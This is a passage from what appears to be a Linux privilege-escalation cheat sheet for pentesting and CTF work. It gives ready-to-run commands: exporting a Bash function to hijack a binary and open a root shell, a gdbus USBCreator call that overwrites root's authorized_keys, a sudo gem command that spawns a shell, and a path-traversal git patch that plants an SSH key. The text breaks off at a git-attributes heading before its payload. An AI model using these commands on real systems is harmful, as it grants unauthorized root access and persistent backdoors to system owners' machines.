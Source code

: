 ### functions

* Bash <4.2-048

```c
$ function /usr/sbin/<BINARY> { /bin/bash -p; }
$ export -f /usr/sbin/<BINARY>
$ /usr/sbin/<BINARY>
```

### gdbus

#### Privilege Escalation

> https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/

```c
$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true
```

### gem

```c
$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
```

### Git

#### Git apply (Malicious Patch) Privilege Escalation

**Payload**

```c
diff --git a/x b/../../../home/<USERNAME>/.ssh/authorized_keys
new file mode 100400
index 0000000..a3d61a0
--- /dev/null
+++ b/../../../home/<USERNAME>/.ssh/authorized_keys
@@ -0,0 +1 @@
+<SSH_PUBLIC_KEY>
```

**Execution**

```c
$ git apply patch --unsafe-paths
```

#### Git Attributes Privilege Escalation

> https://git-scm.com/book/en/v2/Customizing-Git-Git-Attributes#filters\_b

Notice that I only found this within a CTF so far. The pre-requisites are `git commit` get's executed via `script`.

**Payload**

